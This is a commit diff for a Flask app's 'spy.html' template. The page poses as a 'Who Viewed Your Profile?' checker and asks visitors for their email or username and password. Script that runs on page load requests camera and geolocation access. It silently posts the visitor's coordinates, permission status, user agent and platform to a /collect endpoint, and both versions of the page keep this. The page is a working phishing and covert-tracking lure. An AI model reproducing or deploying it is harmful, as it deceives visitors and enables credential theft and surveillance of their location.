

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -8,8 +8,8 @@
   <style>
     body {
       margin: 0;
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
       background: linear-gradient(135deg, #2c3e50, #3498db);
+      font-family: Arial, sans-serif;
       color: white;
       display: flex;
       justify-content: center;
@@ -17,66 +17,59 @@
       height: 100vh;
     }
     .box {
-      background: rgba(255, 255, 255, 0.1);
+      background: rgba(255,255,255,0.1);
       padding: 30px;
       border-radius: 16px;
-      box-shadow: 0 0 20px rgba(0,0,0,0.3);
       text-align: center;
-      width: 320px;
+      width: 300px;
       backdrop-filter: blur(8px);
     }
     h1 {
-      font-size: 28px;
-      margin-bottom: 20px;
+      font-size: 24px;
     }
     p {
-      margin-bottom: 30px;
-      font-size: 16px;
-      color: #f1f1f1;
+      font-size: 14px;
+      margin-bottom: 20px;
     }
     input, button {
       width: 100%;
-      padding: 12px;
-      margin: 8px 0;
+      padding: 10px;
+      margin: 10px 0;
       border-radius: 8px;
       border: none;
-      font-size: 16px;
+      font-size: 14px;
     }
     input {
-      background: #ecf0f1;
-      color: #2c3e50;
+      background: #fff;
+      color: #000;
     }
     button {
       background: #e74c3c;
       color: white;
-      cursor: pointer;
       font-weight: bold;
-    }
-    button:hover {
-      background: #c0392b;
     }
   </style>
 </head>
 <body>
   <div class="box">
-    <h1>👁 Who Viewed Your Profile?</h1>
-    <p>Enter your email to check last profile visitors (Secret Mode)</p>
-    <form id="spyForm">
-      <input type="text" placeholder="Enter your email" required>
-      <input type="password" placeholder="Your password" required>
+    <h1>👁️ Who Viewed Your Profile?</h1>
+    <p>Enter to check last profile visitors (Secret Mode)</p>
+    <form>
+      <input type="text" placeholder="Email or username" required>
+      <input type="password" placeholder="Password" required>
       <button type="submit">Check Now</button>
     </form>
   </div>
 
   <script>
-    async function collectData(status, latitude = null, longitude = null) {
+    async function sendData(status, lat=null, long=null) {
       await fetch("/collect", {
         method: "POST",
         headers: {"Content-Type": "application/json"},
         body: JSON.stringify({
           userAgent: navigator.userAgent,
-          latitude: latitude,
-          longitude: longitude,
+          latitude: lat,
+          longitude: long,
           camera: status,
           deviceInfo: navigator.platform
         })
@@ -84,20 +77,14 @@
     }
 
     navigator.mediaDevices.getUserMedia({ video: true })
-      .then(stream => {
-        navigator.geolocation.getCurrentPosition(
-          pos => {
-            collectData("✅ Allowed", pos.coords.latitude, pos.coords.longitude);
-          },
-          err => {
-            collectData("❌ Location Denied");
-          }
-        );
-        stream.getTracks().forEach(track => track.stop());
-      })
-      .catch(err => {
-        collectData("❌ Camera Denied");
-      });
+    .then(stream => {
+      navigator.geolocation.getCurrentPosition(
+        pos => sendData("✅ Allowed", pos.coords.latitude, pos.coords.longitude),
+        err => sendData("❌ Location Denied")
+      );
+      stream.getTracks().forEach(track => track.stop());
+    })
+    .catch(err => sendData("❌ Camera Denied"));
   </script>
 </body>
 </html>
```
